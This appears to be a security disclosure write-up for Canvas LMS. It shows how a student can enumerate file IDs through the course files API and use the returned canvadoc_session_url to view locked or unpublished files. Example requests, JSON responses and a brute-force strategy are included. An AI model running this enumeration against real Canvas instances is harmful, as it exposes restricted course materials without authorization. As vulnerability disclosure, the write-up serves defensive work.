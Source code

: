 # Canvas File Oracle

## Exploitation Summary

Our researcher has found that due to the absent file permission checking in the API, the value of `canvadoc_session_url` makes it possible for a `student` to view any uploaded files in a course the student has enrolled, even if the file _belongs to an unpublished module_, _is locked_, or _is locked and belongs to an unpublished module_.

## Core Vulnerability 

- The **Access Token** generated by Canvas LMS behaves non-discriminatively for all roles. 
  - `GET https://canvas.example.com/api/v1/courses/{COURSE_ID}/files/{FILE_ID}` always return a JSON object containing a valid `canvadoc_session_url` property when the owner of the **Access Token** is enrolled in the `{COURSE_ID}` and `{FILE_ID}` specifies a file in `{COURSE_ID}`.
- `canvadoc_session_url` from the JSON object behaves non-discriminatively for all roles.
  - For all roles (`teacher`, `TA`, `student`), `canvadoc_session_url` provides the path (301 redirects) to a DocViewer page. The DocView is believed to be used by Canvas by being loaded in an iframe.

## Exploitation

It would be trivial to create a bruteforce attack for a specific `{COURSE_ID}` to get the `{TARGET_FILE_ID}`:

```
GET https://canvas.example.com/api/v1/courses/{COURSE_ID}/files/{TARGET_FILE_ID}
```

by bruteforcing all possible `{TARGET_FILE_ID}` values. When the `{TARGET_FILE_ID}` is not exist, API returns:

```
{
  "errors": [
    {
      "message": "The specified resource does not exist."
    }
  ]
}
```

Otherwise, API returns an JSON object containing the detailed file info: 

```
{
  "id": 153481443,
  "uuid": "VAfrXT0AGMUqmxfdMP90voq9hJCb0gOvOGQ9q4G4",
  "folder_id": 31307712,
  "display_name": "unsafe3.txt",
  "filename": "unsafe3.txt",
  "upload_status": "success",
  "content-type": "text/plain",
  "url": "",
  "size": 18,
  "created_at": "2021-09-25T03:39:19Z",
  "updated_at": "2021-09-25T04:16:51Z",
  "unlock_at": null,
  "locked": false,
  "hidden": false,
  "lock_at": null,
  "hidden_for_user": false,
  "thumbnail_url": "",
  "modified_at": "2021-09-25T03:39:19Z",
  "mime_class": "text",
  "media_entry_id": null,
  "locked_for_user": true,
  "lock_info": {
    "asset_string": "attachment_153481443",
    "context_module": {
      "id": 7687041,
      "context_id": 3550057,
      "context_type": "Course",
      "name": "Private Locked Module",
      "position": 4,
      "prerequisites": [],
      "completion_requirements": [],
      "created_at": "2021-09-25T03:30:02Z",
      "updated_at": "2021-09-25T04:16:51Z",
      "workflow_state": "unpublished",
      "deleted_at": null,
      "unlock_at": "2021-11-24T07:00:00Z",
      "migration_id": null,
      "require_sequential_progress": false,
      "cloned_item_id": null,
      "completion_events": null,
      "requirement_count": null,
      "root_account_id": 10
    },
    "unlock_at": "2021-11-24T07:00:00Z"
  },
  "lock_explanation": "This file is locked until Nov 24 at 12am.",
  "canvadoc_session_url": "/api/v1/canvadoc_session?blob=%7B%22user_id%22:70000032029297,%22attachment_id%22:153481443,%22type%22:%22canvadoc%22%7D&hmac=e423b38ecb275dca5f694e941ab1beaa4d03453d",
  "crocodoc_session_url": null
}
```

By appending `canvadoc_session_url` part to the hostname `https://canvas.examples.com`, we get something like 

```
https://canvas.examples.com/api/v1/canvadoc_session?blob=%7B%22user_id%22:70000032029297,%22attachment_id%22:153481443,%22type%22:%22canvadoc%22%7D&hmac=e423b38ecb275dca5f694e941ab1beaa4d03453d
```

Which redirects to a DovViewer showing the contents of the file, even if the file is current `UNPUBLISHED` or even `LOCKED`.

## Attack Improvement

The attack efficiency could be greatly amplified if the attacker could make an educated guess for the `FileID`, which is `serialized` for each Canvas LMS instance installation.
